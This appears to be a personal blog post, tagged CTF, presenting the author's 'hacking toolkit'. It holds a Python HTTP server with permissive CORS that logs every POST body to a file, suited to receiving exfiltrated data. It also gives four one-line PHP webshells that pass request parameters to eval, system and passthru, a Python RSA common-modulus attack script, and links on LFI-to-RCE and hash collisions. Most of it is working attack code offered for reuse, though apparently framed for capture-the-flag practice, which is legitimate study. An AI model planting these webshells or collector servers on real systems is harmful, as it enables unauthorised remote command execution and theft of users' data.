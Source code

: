 ```yaml
---
abbrlink: 4e56d65
categories:
    - - Hacking
cover: https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/24/9/Blog_cover%20(17)%20(1)_3e1f0c91c61253af1f2670f4341e7d33.jpg
date: "2024-09-03T23:50:41.047232+08:00"
sticky: 1337
tags: CTF
title: My Hacking Toolkit
updated: "2024-09-04T16:33:10.514+08:00"
---
```


# Web

## Temp Server (Python)

```python
from http.server import SimpleHTTPRequestHandler, HTTPServer
from urllib.parse import unquote
class CustomRequestHandler(SimpleHTTPRequestHandler):

    def end_headers(self):
        self.send_header('Access-Control-Allow-Origin', '*')  # Allow requests from any origin
        self.send_header('Access-Control-Allow-Methods', 'GET, POST, OPTIONS')
        self.send_header('Access-Control-Allow-Headers', 'Content-Type')
        super().end_headers()

    def do_GET(self):
        self.send_response(200)
        self.end_headers()
        self.wfile.write(b'Hello, GET request!')

    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length).decode('utf-8')

        self.send_response(200)
        self.end_headers()

        # Log the POST data to data.html
        with open('data.html', 'a') as file:
            file.write(post_data + '\n')
        response = f'THM, POST request! Received data: {post_data}'
        self.wfile.write(response.encode('utf-8'))

if __name__ == '__main__':
    server_address = ('', 8080)
    httpd = HTTPServer(server_address, CustomRequestHandler)
    print('Server running on http://localhost:8080/')
    httpd.serve_forever()
```

## One-liner Trojan (Backdoor, Webshell)

```php
<?php @eval($_POST['shell']);?>
<?php @system($_POST["cmd"])?>
<?php passthru($_GET['cmd']); ?>
<? system($_GET["cmd"]); ?>
```



## LFI & RFI

### LFI2RCE

-   [Advanced Local File Inclusion to RCE in 2022](https://blog.stevenyu.tw/2022/05/07/advanced-local-file-inclusion-2-rce-in-2022/)
-   [PHP_INCLUDE_TO_SHELL_CHAR_DICT](https://github.com/CX330Blake/PHP_INCLUDE_TO_SHELL_CHAR_DICT)

# Crypto

## Common Modulus Attack

```python
from Crypto.Util.number import long_to_bytes

n = 8043524339665486501722690364841854181558012095441297536641336786057021881436981279151373985115124256457664918399612791182378270114245970486016546496099141
e1 = 863047
c1 = 977794351462943753500623403456170325029164798178157637276767524847451843872628142596652557213651039320937257524442343930998122764638359874102209638080782
e2 = 995023
c2 = 7803335784329682230086969003344860669091120072205053582211253806085013270674227310898253029435120218230585288142781999838242977459669454181592089356383378


def egcd(a: int, b: int) -> tuple[int, int, int]:
    if a == 0:
        return (b, 0, 1)
    g, y, x = egcd(b % a, a)
    return (g, x - (b // a) * y, y)


def inverse(a: int, b: int) -> int:
    g, x, y = egcd(a, b)  # ax + by = g
    if g == 1:
        return x % b
    raise ValueError("base is not invertible for the given modulus.")


g, x, y = egcd(e1, e2)

if x < 0:
    c1_inv = inverse(c1, n)
    c1 = pow(c1_inv, -x, n)
else:
    c1 = pow(c1, x, n)

if y < 0:
    c2_inv = inverse(c2, n)
    c2 = pow(c2_inv, -y, n)
else:
    c2 = pow(c2, y, n)

m = (c1 * c2) % n
print(long_to_bytes(m))
```

## Hash Collision

-   [Hash Collisions](https://github.com/CX330Blake/Hash-Collisions/)
